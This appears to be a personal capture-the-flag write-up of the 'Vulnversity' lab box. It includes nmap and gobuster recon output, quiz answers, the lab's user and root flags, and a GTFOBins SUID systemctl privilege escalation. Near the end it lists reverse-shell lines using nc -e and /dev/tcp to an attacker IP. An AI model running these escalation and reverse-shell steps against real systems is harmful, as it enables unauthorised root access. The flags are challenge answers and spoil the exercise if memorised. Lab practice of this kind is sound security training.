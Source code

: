 06/16/2025

# Vulnversity

# TASK 1

Fire up the box and wait a bit for pings to return
Create working folder and nmap folder

Setup IP variable for simplicity
Export IP=<ip address>
10.10.101.248

# TASK 2

Q. Scan the box; 
#Nmap scan
#nmap -sC -sV -oN nmap/initial $IP

Results

Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-18 20:43 EDT                                    
Nmap scan report for 10.10.82.241                                                                  
Host is up (0.15s latency).                                                                        
Not shown: 994 closed tcp ports (reset)                                                            
PORT     STATE SERVICE     VERSION                                                                 
21/tcp   open  ftp         vsftpd 3.0.5                                                            
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)           
| ssh-hostkey: 
|   3072 74:13:9e:22:29:6c:fb:c3:5c:da:c7:80:94:4d:b4:63 (RSA)
|   256 ba:21:a7:b5:4b:38:13:88:27:1f:f1:01:de:48:c0:58 (ECDSA)
|_  256 30:d4:46:5e:ec:78:6d:d6:95:d1:65:0a:6d:b5:23:73 (ED25519)
139/tcp  open  netbios-ssn Samba smbd 4
445/tcp  open  netbios-ssn Samba smbd 4
3128/tcp open  http-proxy  Squid http proxy 4.10
|_http-title: ERROR: The requested URL could not be retrieved
|_http-server-header: squid/4.10
3333/tcp open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Vuln University
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: -1s
| smb2-time: 
|   date: 2025-06-19T00:44:02
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: IP-10-10-82-241, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.62 seconds

Q. How many ports are open?

A> 6

Q. What version of the squid proxy is running on the machine?

A.  4.10

Q. How many ports will Nmap scan if the flag -p-400 was used?

A. 400

Q. What is the most likely operating system this machine is running? 

A. Ubuntu

Q. What port is the web server running on?

A. 3333

Q. What is the flag for enabling verbose mode using Nmap?

A. -v

# TASK 3

Q. What is the directory that has an upload form page?

A. /internal/

gobuster dir -w /usr/share/wordlist/dirbuster/directory-1.3.1-small.txt -u http://10.10.10.10:3333

# TASK 4

Q. What common file type you'd want to upload to exploit the server is blocked? Try a couple to find out.

A. .php

Q. What extension is allowed after running the above exercise?

A. phtml

Q. What is the name of the user who manages the webserver?

A. bill

Q. What is the user flag?

A. 8bd7992fbe8a6ad22a63361004cfcedb

# TASK 5

Q. On the system, search for all SUID files. Which file stands out?

A. go to https://gtfobins.github.io/ to find answer = /bin/systemctl

find / -type f -perm -04000 -ls 2>/dev/null
   396628     44 -rwsr-xr-x   1 root     root        41552 Feb  6  2024 /usr/bin/newuidmap
   395578     84 -rwsr-xr-x   1 root     root        85064 Feb  6  2024 /usr/bin/chfn
   396626     48 -rwsr-xr-x   1 root     root        45648 Feb  6  2024 /usr/bin/newgidmap
   396998    164 -rwsr-xr-x   1 root     root       166056 Apr  4  2023 /usr/bin/sudo
   400521     52 -rwsr-xr-x   1 root     root        53040 Feb  6  2024 /usr/bin/chsh
   400524     68 -rwsr-xr-x   1 root     root        68208 Feb  6  2024 /usr/bin/passwd
   419923     32 -rwsr-xr-x   1 root     root        31032 Feb 21  2022 /usr/bin/pkexec
   397803     44 -rwsr-xr-x   1 root     root        44784 Feb  6  2024 /usr/bin/newgrp
   400523     88 -rwsr-xr-x   1 root     root        88464 Feb  6  2024 /usr/bin/gpasswd
   401943     56 -rwsr-sr-x   1 daemon   daemon      55560 Nov 12  2018 /usr/bin/at
   397519    156 -rwsr-xr-x   1 root     root       159304 Jan 15 15:02 /usr/lib/snapd/snap-confine
   419925     24 -rwsr-xr-x   1 root     root        22840 Feb 21  2022 /usr/lib/policykit-1/polkit-agent-helper-1
   397315    468 -rwsr-xr-x   1 root     root       477672 Apr 11 08:16 /usr/lib/openssh/ssh-keysign
   401528     16 -rwsr-xr-x   1 root     root        14488 Jul  8  2019 /usr/lib/eject/dmcrypt-get-device
   396651     52 -rwsr-xr--   1 root     messagebus    51344 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
   404935    848 -rwsr-xr-x   1 root     root         866448 Feb  3  2022 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
   133104     68 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /bin/su
   133153     56 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /bin/mount
   133154     40 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /bin/umount
   131094    976 -rwsr-xr-x   1 root     root         996584 Jun 17  2024 /bin/systemctl
   131086     40 -rwsr-xr-x   1 root     root          39144 Mar  7  2020 /bin/fusermount
      210    177 -rwsr-xr-x   1 root     root         180753 Apr  5 15:10 /snap/snapd/24505/usr/lib/snapd/snap-confine
      875     84 -rwsr-xr-x   1 root     root          85064 Feb  6  2024 /snap/core20/2582/usr/bin/chfn
      881     52 -rwsr-xr-x   1 root     root          53040 Feb  6  2024 /snap/core20/2582/usr/bin/chsh
      951     87 -rwsr-xr-x   1 root     root          88464 Feb  6  2024 /snap/core20/2582/usr/bin/gpasswd
     1035     55 -rwsr-xr-x   1 root     root          55528 Apr  9  2024 /snap/core20/2582/usr/bin/mount
     1044     44 -rwsr-xr-x   1 root     root          44784 Feb  6  2024 /snap/core20/2582/usr/bin/newgrp
     1059     67 -rwsr-xr-x   1 root     root          68208 Feb  6  2024 /snap/core20/2582/usr/bin/passwd
     1169     67 -rwsr-xr-x   1 root     root          67816 Apr  9  2024 /snap/core20/2582/usr/bin/su
     1170    163 -rwsr-xr-x   1 root     root         166056 Apr  4  2023 /snap/core20/2582/usr/bin/sudo
     1228     39 -rwsr-xr-x   1 root     root          39144 Apr  9  2024 /snap/core20/2582/usr/bin/umount
     1317     51 -rwsr-xr--   1 root     systemd-network    51344 Oct 25  2022 /snap/core20/2582/usr/lib/dbus-1.0/dbus-daemon-launch-helper
     1691    467 -rwsr-xr-x   1 root     root              477672 Apr 11 08:16 /snap/core20/2582/usr/lib/openssh/ssh-keysign
   393653     48 -rwsr-xr-x   1 root     root               48200 Apr  2 00:10 /sbin/mount.cifs

Q. What is the root flag value?

A. a58ff8579f0a9270368d33a9966c7fd5

#Check Gtfobins for SUID escalation script - https://gtfobins.github.io/gtfobins/systemctl/

Move to a writeable directory - I used /tmp

TF=$(mktemp).service

echo '[Service]

Type=oneshot

ExecStart=/bin/sh -c "id > /tmp/output"

[Install]

WantedBy=multi-user.target' > $TF

/bin/systemctl link $TF

/bin/systemctl enable --now $TF

'We need to change the ExecStart command so I can create reverse shell as root. This is where my problems started...

Googling around I found 

ExecStart=/bin/sh -c "nc -e /bin/bash 10.2.57.121 9999"

'that didn't work. no -e option

ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.2.57.121/5555 0>&1'

'this didn't work either. "Bad fd number"

'More googling!

'Finally I gave up on reverse shell and just decided to cat out the file and redirect it to a new file in temp I could read

ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/root.txt"

That worked fine. 

# REMINDER: I'll need to come back to this once I understand why nc -e isn't available and why bash has trouble with >&

